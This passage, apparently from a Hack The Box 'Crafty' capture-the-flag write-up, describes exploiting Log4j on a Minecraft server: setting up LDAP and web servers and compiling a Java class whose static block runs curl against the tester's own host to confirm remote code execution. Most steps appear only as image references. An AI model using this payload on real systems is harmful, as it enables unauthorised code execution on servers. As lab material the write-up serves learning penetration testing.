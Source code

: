 ![](/assets/images/HTB-Writeup-Crafty/MinecraftExploitMap.png)


- Before, important configurations.

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613190326.png)

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613190448.png)

- Next, to exploit this vulnerability, the pentester first set up the `LDAP` server, as well as the `web` server.

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613190911.png)

- He created the `Log4jRCE.class` with the following `Log4jRCE.java` file.

```java
public class Log4jRCE {
    static {
        try {
           String RevS = "curl http://10.10.14.151/testLog4j";         
           Runtime.getRuntime().exec(RevS).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
